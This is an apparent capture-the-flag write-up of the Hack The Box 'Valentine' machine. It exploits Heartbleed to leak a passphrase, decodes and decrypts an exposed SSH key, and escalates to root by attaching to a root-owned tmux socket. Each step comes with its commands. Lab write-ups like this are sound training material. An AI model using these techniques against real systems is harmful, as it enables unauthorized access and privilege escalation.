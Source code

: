 ```yaml
---
layout: post
title: Hack The Box - Valentine Writeup
date: 2024-06-25 02:00:00 +0100
published: true
categories: [Hack The Box]
tags: [Hack The Box]
---
```


![valentineBadge.png](/assets/img/Valentine/valentineBadge.png)

## Summary

 Nmap revealed that server is vulnerable to `Heartbleed`. By exploiting this, I was able to retrieve memory leak which contained base64 encoded string that decodes to `heartbleedbelievethehype`. 
By brute-forcing directories on port 80, I discovered the `/dev/` directory, which contained `hype_key` file. After inspecting contents of `hype_key`, I was able to determine that it is hex encoded. I used `xxd` for decoding. Decoded file proved to be encrypted `rsa` key. After decrypting file with `openssl`, I was able to `ssh` into the system as user `hype`. Enumerating system with `linpeas.sh` revealed that root is running `/usr/bin/tmux -S /.devs/dev_sess` command. To get access to this `tmux` session we can replicate the same command. 


## Reconnaissance

### Nmap

```bash
nmap -sV -sC -p- -oN ./nmapAll.txt --max-retries=1 10.10.10.79
```

```
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 964c51423cba2249204d3eec90ccfd0e (DSA)
|   2048 46bf1fcc924f1da042b3d216a8583133 (RSA)
|_  256 e62b2519cb7e54cb0ab9ac1698c67da9 (ECDSA)
80/tcp  open  http     Apache httpd 2.2.22 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.2.22 (Ubuntu)
443/tcp open  ssl/http Apache httpd 2.2.22 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=valentine.htb/organizationName=valentine.htb/stateOrProvinceName=FL/countryName=US
| Not valid before: 2018-02-06T00:45:25
|_Not valid after:  2019-02-06T00:45:25
|_ssl-date: 2024-06-25T00:39:21+00:00; -1s from scanner time.
|_http-server-header: Apache/2.2.22 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

```bash
nmap --script vuln 10.10.10.79
```

![nmapVuln.png](/assets/img/Valentine/nmapVuln.png)

## Enumeration

### Service Enumeration

| **IP Address** | **Ports Open** |
|-------|--------|
| 10.10.11.180 | **TCP**: 22, 80, 443 |

#### Port 80/443

##### Heartbleed Bug
 
 Nmap revealed that server is vulnerable to [Heartbleed](https://heartbleed.com/). For exploitation, I used this python [script](https://gist.github.com/eelsivart/10174134) which resulted in the leakage of a portion of memory containing the `$text` variable. 

```
python2 heartbleed.py 10.10.10.79 -p 443
```

![exploit.png](/assets/img/Valentine/exploit.png)

String looks like it's base64 encoded. Decoding it returns string `heartbleedbelievethehype`.

![decode.png](/assets/img/Valentine/decode.png)

##### Website

![80-443.png](/assets/img/Valentine/80-443.png)

##### Web Content Discovery

```bash
dirsearch -e php,asp,aspx,jsp,py,txt,conf,config,bak,backup,swp,old,db,sql -u http://valentine.htb
```

![dirsearch.png](/assets/img/Valentine/dirsearch.png)

##### Directory /dev

`/dev` directory contains interesting `hype_key` file. The name of the file suggests that it is some sort of key. 

![dev.png](/assets/img/Valentine/dev.png)

By inspecting contents of `hype_key`, I could determine that it is hex encoded. To decode it I used `xxd`.

```bash
cat hype_key | xxd -r -p > id_rsa_enc
```

![sshEnc.png](/assets/img/Valentine/sshEnc.png)

Inspecting decoded file reveals that key is encrypted. We can use `openssl` for decryption. For pass phrase I used `heartbleedbelievethehype`. 

```bash
openssl rsa -in id_rsa_enc -out id_rsa
```

![rsaDecrypt.png](/assets/img/Valentine/rsaDecrypt.png)


## Initial Foothold

### SSH - hype

With decrypted `rsa` key, I was able to `ssh` into the system as user `hype`.

```bash
ssh -o PubkeyAcceptedKeyTypes=ssh-rsa -i id_rsa hype@10.10.10.79
```

![ssh.png](/assets/img/Valentine/ssh.png)

### User.txt

![userFlag.png](/assets/img/Valentine/userFlag.png)


## Privilege Escalation

### System Enumeration

#### Linpeas

Running `linpeas.sh` revealed that `root` is running `/usr/bin/tmux -S /.devs/dev_sess` command. 
 
![linpeas.png](/assets/img/Valentine/linpeas.png)

To access this `tmux` session, I used the same command. 

```bash
/usr/bin/tmux -S /.devs/dev_sess 
```

Running this command resulted in error: `open terminal failed: missing or unsuitable terminal: tmux-256color`, which can be fixed by this command:

```bash
export TERM=xterm
```

After that I was able to connect to `tmux` session with root privileges.

![root.png](/assets/img/Valentine/root.png)


